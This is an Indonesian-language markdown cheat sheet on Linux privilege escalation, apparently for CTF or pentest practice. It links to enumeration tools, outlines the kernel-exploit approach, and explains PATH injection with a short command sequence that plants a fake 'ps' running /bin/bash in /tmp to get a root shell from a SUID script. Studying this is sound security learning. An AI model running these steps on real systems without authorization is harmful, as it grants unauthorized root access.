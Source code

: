 # Usefool Tools and links
Cek Priv Esc
https://github.com/sleventyeleven/linuxprivchecker

Kalau stuck bisa kesini
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Kernel Exploit
Intinya nyari apakah versi kernel vuln. Cara ceknya
`uname -a`
Terus cari exploitnya -> Compile -> Run -> Boom

# Checklist
![Linux PrivEsc](linux_privesc.jpg)

12. LD_PRELOAD
13. PATH INJECTION

# Path Injection
Path injection terjadi karena pemanggilan binary dengan akses root yang tidak menggunakan full path. Contoh pemangilan yang benar
```
/usr/local/bin/nmap -sV 192.168.1.1
```

Contoh pemanggilan yang salah
```
nmap -sV 192.168.1.1
```
Kenapa kok bisa salah? karena hal ini bisa menjadi celah PATH injection. 

Linux menggunakan PATH untuk memanggil aplikasi tanpa menulis full path. Sama seperti Environment variable di windows. Namun ketika aplikasi ini dipanggil tanpa full path dengan akses root, maka kita bisa melakukan injection agar aplikasi yang dipanggil pertama kali di eksekusi pada direktori yang kita inginkan. 

```
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

Ya jadi contohnya diatas, kita menambahkan $PATH direktori `/tmp` dimana diletakkan di awal, sehingga aplikasi yang tanpa full path tadi akan mencari pertama kali ke folder `tmp`



